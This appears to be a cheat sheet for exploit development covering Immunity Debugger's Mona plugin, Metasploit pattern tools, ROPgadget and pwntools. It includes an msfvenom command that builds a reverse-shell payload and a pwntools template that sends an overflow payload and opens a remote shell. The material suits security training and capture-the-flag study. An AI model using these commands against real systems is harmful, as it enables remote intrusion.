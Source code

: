 ### Immunity Debugger (Windows)

GUI debugger with Mona plugin:

```
# Mona commands
!mona pattern_create 500
!mona pattern_offset 0x41384141
!mona jmp -r esp
!mona rop -m module.dll
```

### Metasploit Framework

```bash
# Generate pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500

# Find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41384141

# Generate shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f python -b '\x00\x0a\x0d'
```

### ROPgadget

Find ROP gadgets in binaries:

```bash
# Find gadgets
ROPgadget --binary ./vulnerable_program

# Find specific gadgets
ROPgadget --binary ./vulnerable_program --only "pop|ret"

# Generate ROP chain
ROPgadget --binary ./vulnerable_program --ropchain
```

### Pwntools

Python library for exploit development:

```python
from pwn import *

# Connect to target
p = remote('target.com', 1337)
# or
p = process('./vulnerable_program')

# Send payload
payload = b"A" * 112
payload += p32(0xdeadbeef)  # Pack address
p.sendline(payload)

# Receive response
response = p.recvline()

# Interactive shell
p.interactive()
```
